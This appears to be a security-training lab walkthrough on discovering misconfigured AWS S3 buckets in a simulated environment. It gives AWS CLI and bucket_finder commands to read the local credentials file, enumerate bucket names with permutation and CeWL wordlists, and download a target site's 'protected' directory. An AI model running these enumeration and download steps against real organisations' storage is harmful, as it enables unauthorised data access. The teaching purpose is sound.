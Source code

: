 # AWS S3 Cloud Bucket Discovery

This walkthrough guides you through identifying and assessing the threat of misconfigured cloud storage buckets using a simulated cloud environment. You'll interact with AWS S3 buckets using the AWS CLI and bucket_finder tool, generating custom bucket name lists using different methods.

## Prerequisites:

  - **`Linux VM`**: Ensure your Linux VM is running before starting this walkthrough.
  - **`AWS CLI`**: Preconfigured on your VM.
  - **`bucket_finder`**: A tool by Robin Wood for identifying S3 buckets.

## Steps:

  1. Start the Simulated Cloud Service

     Open a terminal on your Linux VM and run gos3 to launch the simulated cloud environment.

     ```
     user@LinuxVM:~/home$ gos3
     ```

  2. Examine AWS Credentials

     Display the contents of the AWS credentials file.

     ```
     user@LinuxVM:~$ cat ~/.aws/credentials
     ```
     
  3. Create and Interact with an S3 Bucket

     - Create a Bucket: Use the AWS CLI to create a new bucket.
    
       ```
       user@LinuxVM:~$ aws s3 mb s3://mybucket2
       ```
       
     - Upload a File: Create a file and upload it to the bucket.

       ```
       user@LinuxVM:~$ ps -ef > pslist.txt
       user@LinuxVM:~$ aws s3 cp pslist.txt s3://mybucket2/
       ```

      - List the Bucket: Verify the uploaded file.
    
        ```
        user@LinuxVM:~$ aws s3 ls s3://mybucket2
        ```
  4. Reconnaissance Analysis

     Use Firefox to visit the Falsimentis website and identify the S3 bucket service.

     - Open Firefox: Navigate to the website.
    
       ```
       user@LinuxVM:~$ firefox http://www.faketestsite.com
       ```

     - Identify the Bucket: Note the URL structure of linked resources, e.g., '**`www.faketestsite.com.s3.amazonaws.com`**'.
    
  5. Access the Discovered Bucket

     List the contents of the discovered bucket using the AWS CLI.

     ```
     user@LinuxVM:~$ aws s3 ls s3://www.faketestsite.com
     ```

   6. Bypass Directory Authentication

      Access the protected directory and download its contents.

      - List the Protected Directory:
     
        ```
        user@LinuxVM:~$ aws s3 ls s3://www.faketestdite.com/protected/
        ```
        
      - Download the Contents:
     
        ```
        user@LinuxVM:~$ aws s3 sync s3://www.faketestsite.com/protected/ protected/
        ```

  7. Bucket Discovery with Short List

     Use bucket_finder with a short list of bucket names.

     ```
     user@LinuxVM:~$ bucket_finder.rb ~/home/s3/shortlist.txt
     ```
     
  8. Bucket Discovery with Longer List

     - Run bucket_finder:
    
       ```
       user@LinuxVM:~$ bucket_finder.rb ~/home/s3/bucketlist.txt | tee bucketlist1-output.txt
       ```

     - Filter Results:
    
       ```
       user@LinuxVM:~$ grep -v "does not exist" bucketlist1-output.txt
       ```
  9. Generate a Custom Bucket List

     - Create Custom List Using Permutations:
    
       ```
       user@LinuxVM:~$ awk '{print "faketestsite-" $1}' ~/home/s3/permutations.txt > bucketlist2.txt
       ```

     - Verify the List:
    
       ```
       user@LinuxVM:~$ head bucketlist2.txt
       ```

     - Run bucket_finder with Custom List:
    
       ```
       user@LinuxVM:~$ bucket_finder.rb bucketlist2.txt | tee bucketlist2-output.txt
       ```

  10. Generate and Use a CeWL List

      - Run CeWL:

        ```
        user@LinuxVM:~$ /opt/cewl/cewl.rb -m 2 -w cewl-output.txt http://www.faketestsite.com
        ```

      - Convert to Lowercase:
     
        ```
        user@LinuxVM:~$ cat cewl-output.txt | tr [:upper:] [:lower:] > cewl-wordlist.txt
        ```

      - Run bucket_finder with CeWL List:
     
        ```
        user@LinuxVM:~$ bucket_finder.rb cewl-wordlist.txt | tee cewl-output.txt
        ```
        
## Conclusion:

In this walkthrough, you explored methods for identifying insecure cloud storage buckets. Using the AWS CLI and bucket_finder tool, you successfully created, accessed, and enumerated S3 buckets, demonstrating how attackers might exploit misconfigured cloud storage services.

## References:

  - AWS CLI: https://aws.amazon.com/cli/
  - bucket_finder Tool: https://digi.ninja/projects/bucket_finder.php
  - CeWL Tool: https://digi.ninja/projects/cewl.php


       

       
       
     





       



     
